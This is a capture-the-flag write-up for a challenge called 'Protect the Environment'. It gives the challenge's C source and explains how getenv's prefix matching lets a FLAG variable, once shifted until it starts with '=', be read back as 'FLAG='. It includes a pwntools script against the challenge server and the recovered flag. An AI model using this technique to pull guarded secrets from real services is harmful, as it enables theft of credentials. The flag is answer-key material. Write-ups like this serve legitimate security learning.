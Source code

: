 # Protect the Environment

Co-authors: @Rosayxy

```
Protect the earth? We can't even protect our environment variables...
nc 0.cloud.chals.io 33121 
```

Source code in attachment:

```c
// gcc -o chall chall.c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void rot13(char *s) {
  while (*s != 0) {
    *s += 13;
    s++;
  }
}

int main(void) {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);

  char command[64];
  char name[64];

  while (1) {
    printf("> ");
    scanf("%63s %63s", command, name);
    if (!strcmp(command, "protect")) {
      char *val = getenv(name);
      if (val) {
        rot13(val);
        printf("Protected %s\n", name);
      } else {
        printf("No such environment variable\n");
      }
    } else if (!strcmp(command, "print")) {
      if (!strcmp(name, "FLAG")) {
        printf("Access denied\n");
      } else {
        char *val = getenv(name);
        if (val) {
          printf("%s=%s\n", name, val);
        } else {
          printf("No such environment variable\n");
        }
      }
    } else {
      printf("Unknown command\n");
      break ;
    }
  } 
  return 0;
}
```

It seems not vulnerable. However, if we read the source of `getenv`:

```c
size_t len = strlen (name);
for (char **ep = start_environ; ; ++ep)
{
    char *entry = atomic_load_relaxed (ep);
    if (entry == NULL)
    break;

    /* If there is a match, return that value.  It was valid at
        one point, so we can return it.  */
    if (name[0] == entry[0]
        && strncmp (name, entry, len) == 0 && entry[len] == '=')
    return entry + len + 1;
}
```

@Rosayxy makes a critical observation: What if the environment string contains more than one `=`? E.g. `FLAG==abcd`, we can use both `getenv("FLAG")` and `getenv("FLAG=")` to read its content. If we protect `FLAG` several times, until it begins with `=`, we can use `getenv("FLAG=")` to read out the rotated text. Then, we can recover the text manually:

```python
from pwn import *

context(log_level = "debug")

# p = process("./chall")
p = remote("0.cloud.chals.io", 33121)

for i in range(128):
    p.recvuntil(b"> ")
    p.sendline(b"protect FLAG")
    p.recvuntil(b"> ")
    p.sendline(b"print FLAG=")
    line = p.recvline()
    if b"FLAG" in line:
        line = line.decode()
        print(line)
        part = "=".join(line.split("=")[1:])
        for ch in part:
            print(chr((ord(ch) - (i + 1) * 13 + 256) % 256), end="")
        print()
        break
```

Output:

```
FLAG==fik@;r?+i;VkFVgifK*:KVk_*V*em(iFed*EKVn(k?VC(YZVD(,ki*+k(e^V(kt

FortID{H4rD_tO_proT3CT_th3_3nv1rOnm3NT_w1tH_L1bc_M15tr34t1ng_1t}\x13
```
